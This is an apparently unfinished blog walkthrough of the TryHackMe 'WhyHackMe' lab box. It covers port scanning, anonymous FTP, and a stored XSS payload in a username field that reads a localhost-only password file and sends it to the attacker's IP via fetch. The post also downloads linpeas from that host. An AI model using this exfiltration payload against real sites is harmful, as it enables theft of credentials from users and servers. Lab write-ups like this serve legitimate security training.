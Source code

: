 ```yaml
---
layout: post
title:  "TryHackMe | Whyhackme"
author: "lig10"
description: "Walkthrough of whyhackme machine, a Medium rated box from TryHackme"
date: "2024-11-11"
pin: true
image:
  path: ../assets/img/ctf/tryhackme/whyhackme1.png
  alt: "whyhackme.thm"
category: "TryHackMe"
tags: ["ThyHackMe", "Stored XSS", "Iptables Rules", "TLS Traffic Decryption"]
---
```

## Introduction
------------------------------------------------------------------------------------------
[WhyHackMe](https://tryhackme.com/r/room/whyhackme) is a medium linux box from tryhackme. It has 3 ports opens 21 running ftp, 22 running ssh and 80 running a web application. Th foothold consist of exploiting a stored XSS vulnerability to exfiltrate a critical file that can be dicovered on the ftp server. The privilege escalation part involve playing with ipatables rules and decrypting some TLS traffic to access a backdoor runing on a particular port. From here get a reverse shell as www-data who his allowed to run any command as root without a password.

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.4.243
```

```text
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)
```
### Services Scanning
```bash
nmap -p21,22,80 -sC -sV -oN whyhackme.full 10.10.4.243
```

```text
Nmap scan report for 10.10.4.243
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.2.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.99 seconds
```
### Hostname
```bash
echo '10.10.4.243   whyhackme.thm' >> /etc/hosts
```

## FootHold
### Port 21
Since we have anonymous access on the ftp server let's check what we can find there.
```bash
ftp whyhackme.thm
```
![ftp access](./assets/img/ctf/tryhackme/whyhackme2.png)

```text
└─# cat update.txt       
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 

- admin
```
The update.txt file contains an admin message telling that the new account creds can be find at 127.0.0.1/dir/pass.txt, however this is only accessible from localhost.

### Port 80
![web root](./assets/img/ctf/tryhackme/whyhackme3.png)
```bash
ffuf -c -u http://whyhackme.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php
```

```text
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://whyhackme.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 55ms]
blog.php                [Status: 200, Size: 3102, Words: 422, Lines: 23, Duration: 54ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8150ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8583ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8801ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9094ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9471ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 55ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
                        [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 54ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 56ms]
dir                     [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 61ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 66ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 68ms]
login.php               [Status: 200, Size: 523, Words: 45, Lines: 21, Duration: 59ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
register.php            [Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 64ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 60ms]
```
![registration](./assets/img/ctf/tryhackme/whyhackme4.png)
One registered, we can login at `/login.php`. After loged in we can access the blog page where we are allowed to add comments. Let's try adding a comment... 
![blog](./assets/img/ctf/tryhackme/whyhackme9.png)
As we can see, our comment get obviously saved on the server and can be viewed by all the users. We can test for xss there but also in the username field of the registration page since our username also get displayed back.
After trying, i got my xss payload from the username field executed...
![no xss](./assets/img/ctf/tryhackme/whyhackme10.png)
![xss-malicioususer](./assets/img/ctf/tryhackme/whyhackme11.png)
![xss-poc](./assets/img/ctf/tryhackme/whyhackme12.png)
How can we leverage this xss? The admin comment on the blog: `Hey people, I will be monitoring your comments so please be safe and civil`, this suggest us that we can try to leverage this and steal the admin cookie so we can be can have admin access in the applicatin. I've tryied that but no success. However, a recall that we have gotten an admin note from the ftp server. Since we can't access the admin cookie but still can perform actions as admin and in our case i guess the admin is acccessing the blog from localhost. This gives us an opportunity using the xss to exfiltrate the pass.txt file.
```js
<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://10.9.2.138/?q="+t,{mode:"no-cors"}))</script>
```
![exfiltration](./assets/img/ctf/tryhackme/whyhackme13.png)

### Port 22
```bash
ssh jack@whyhackme.thm
```
![registration](./assets/img/ctf/tryhackme/whyhackme5.png)


## Privilege Escalation
```bash
wget http://10.9.2.138/linpeas.sh
./linpeas.sh
```
![sudo -l](./assets/img/ctf/tryhackme/whyhackme6.png)
![another vhost](./assets/img/ctf/tryhackme/whyhackme7.png)
![opt folder](./assets/img/ctf/tryhackme/whyhackme8.png)


## Kill Chain Summary


## References